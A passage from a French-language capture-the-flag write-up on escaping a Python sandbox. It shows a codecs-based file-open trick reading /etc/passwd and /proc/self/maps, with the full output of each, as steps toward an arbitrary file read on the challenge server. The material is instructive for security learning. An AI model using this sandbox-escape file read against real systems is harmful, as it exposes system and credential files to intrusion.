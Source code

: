 ```python
>>> open = L('codecs').open
>>> open('/etc/passwd', 'r').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/bin/false\nctf-init:x:1000:1000::/home/ctf-init:\nctf:x:1001:1001::/home/ctf:\n'
```

On peut maintenant lire des fichiers arbitraires sur le serveur... on essaie quelques noms du style `server.py` ou `chall.py`, mais rien de probant. Essayons de lire `/proc/self/maps` :

```
55b298700000-55b298701000 r--p 00000000 09:03 14549288                   /app/spython
55b298701000-55b298702000 r-xp 00001000 09:03 14549288                   /app/spython
55b298702000-55b298703000 r--p 00002000 09:03 14549288                   /app/spython
55b298703000-55b298704000 r--p 00002000 09:03 14549288                   /app/spython
55b298704000-55b298705000 rw-p 00003000 09:03 14549288                   /app/spython
55b299a56000-55b299b3b000 rw-p 00000000 00:00 0                          [heap]
7f5b9551d000-7f5b9559d000 rw-p 00000000 00:00 0 
7f5b955dd000-7f5b9569d000 rw-p 00000000 00:00 0 
7f5b956b8000-7f5b9581d000 rw-p 00000000 00:00 0 
7f5b9581d000-7f5b95824000 r--s 00000000 09:03 14555684                   /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f5b95824000-7f5b95856000 r--p 00000000 09:03 14554819                   /usr/lib/locale/C.UTF-8/LC_CTYPE
7f5b95856000-7f5b95858000 rw-p 00000000 00:00 0 
7f5b95858000-7f5b95867000 r--p 00000000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b95867000-7f5b95902000 r-xp 0000f000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b95902000-7f5b9599b000 r--p 000aa000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599b000-7f5b9599c000 r--p 00142000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599c000-7f5b9599d000 rw-p 00143000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599d000-7f5b9599e000 r--p 00000000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b9599e000-7f5b9599f000 r-xp 00001000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b9599f000-7f5b959a0000 r--p 00002000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a0000-7f5b959a1000 r--p 00002000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a1000-7f5b959a2000 rw-p 00003000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a2000-7f5b959a3000 r--p 00000000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a3000-7f5b959a4000 r-xp 00001000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a4000-7f5b959a5000 r--p 00002000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a5000-7f5b959a6000 r--p 00002000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a6000-7f5b959a7000 rw-p 00003000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a7000-7f5b959a9000 rw-p 00000000 00:00 0 
```